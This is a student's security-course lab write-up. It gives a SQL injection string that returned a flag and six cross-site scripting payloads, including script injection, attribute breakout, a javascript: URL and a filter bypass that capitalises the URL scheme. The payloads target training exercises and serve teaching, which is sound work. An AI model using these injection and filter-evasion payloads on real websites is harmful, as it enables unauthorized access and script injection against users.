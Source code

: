 Writeup 10 - Crypto II
=====

Name: Andrew Wollack
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Andrew Wollack

## Assignment 10 Writeup

### Part 1 (70 Pts)

item?id=1' or '1 = 1

CMSC38R-{y0U-are_the_5ql_n1nja}

also I just found this by putting 1337 as the id lmao like an hour before i solved it the right way. Also I was pretty triggered that the or had to be lower case but it was important lesson to learn for the future.

### Part 2 (30 Pts)

1. put <script>alert();</script> into the search bar
2. put the alert() in an onclick for an image
3.1.jpg%27%20/><script>alert();</script>
4. %27)%3Balert(%27
5. next = javascript:alert() click the next button when the page loads.
6. httpS://www.google.com/jsapi?callback=alert the callback link is just a site that has the javascript command in it which is called when you load the next site. You need to capitalize any letter in the http so that the regular expression cannot filter it out.